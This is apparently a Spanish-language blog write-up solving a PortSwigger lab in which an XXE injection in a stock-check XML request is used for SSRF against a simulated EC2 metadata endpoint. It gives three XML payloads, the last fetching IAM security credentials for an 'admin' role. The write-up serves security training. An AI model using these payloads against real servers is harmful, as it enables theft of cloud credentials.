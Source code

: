 ```yaml
---
title: "Exploiting XXE to perform SSRF attacks"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE to perform SSRF attacks
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y devuelve cualquier valor inesperado en la respuesta. El `servidor` del laboratorio está ejecutando un `endpoint` de `metadatos` de `EC2 (simulado)` en la `URL` predeterminada, que es `[http://169.254.169.254/](http://169.254.169.254/)`. Este `endpoint` puede usarse para obtener datos sobre la instancia, algunos de los cuales podrían ser sensibles. Para `resolver` el `laboratorio`, hay que `explotar` la vulnerabilidad `XXE` para llevar a cabo un ataque `SSRF` que `obtenga` la `clave secreta` de acceso `IAM` del servidor desde el `endpoint` de `metadatos` de `EC2`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-2/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-2/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-2/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Obtenemos `Doe` lo que quiere decir que ha funcionado y probablemente sea `vulnerable` a un `XXE`

![](/assets/img/XXE-Injection-Lab-2/image_4.png)

Con este `payload` hacemos un petición al `endpoint`, por lo cual estaríamos explotando un `SSRF (Server Side Request Forgery)` a través de un `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La `respuesta` del `servidor` nos `devuelve` el `nombre`, en este caso es `latest`, debemos ir haciendo peticiones hasta `obtener` la `ruta` del `endpoint` completa

![](/assets/img/XXE-Injection-Lab-2/image_5.png)

Con este nuevo `payload` obtenemos la `secret acces key` del usuario `admin`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![](/assets/img/XXE-Injection-Lab-2/image_6.png)
